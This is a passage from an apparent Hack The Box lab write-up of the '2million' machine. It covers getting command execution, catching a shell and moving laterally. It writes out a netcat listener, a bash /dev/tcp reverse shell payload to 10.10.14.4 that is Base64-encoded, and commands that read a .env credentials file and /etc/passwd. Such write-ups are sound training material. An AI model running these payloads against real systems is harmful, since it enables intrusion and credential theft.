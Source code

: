 The command is successful and we gain command execution. Let's start a Netcat listener to catch a shell.

`nc -lvp 1234`

We can then get a shell with the following payload.

`bash -i >& /dev/tcp/10.10.14.4/1234 0>&1`

We encode the payload in Base64 and add it to the following command. To, encode the base64 I used `cyberchef`.

![alt text](HTBImage/2million/base64encoded.png)

![alt text](HTBImage/2million/gotshell.png)

## Lateral Movement

Enumeration of the web directory reveals a file called .env which contains database credentials for a user
called admin.

![alt text](HTBImage/2million/.env.png)

The /etc/passwd file reveals that there is indeed a user on the system called admin.

`cat /etc/passwd`
